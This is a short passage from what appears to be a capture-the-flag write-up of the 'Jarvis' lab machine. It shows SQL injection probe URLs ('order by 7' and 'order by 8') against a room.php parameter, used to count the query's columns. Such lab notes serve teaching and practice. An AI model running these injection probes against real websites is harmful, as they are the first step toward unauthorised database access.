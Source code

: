 ![image-20231228224246317](./Jarvis.assets/image-20231228224246317.png)

- detect column number
  - `http://jarvis.htb/room.php?cod=1 order by 7`: normal output
  - `http://jarvis.htb/room.php?cod=1 order by 8`: abnormal output -> column number = 7

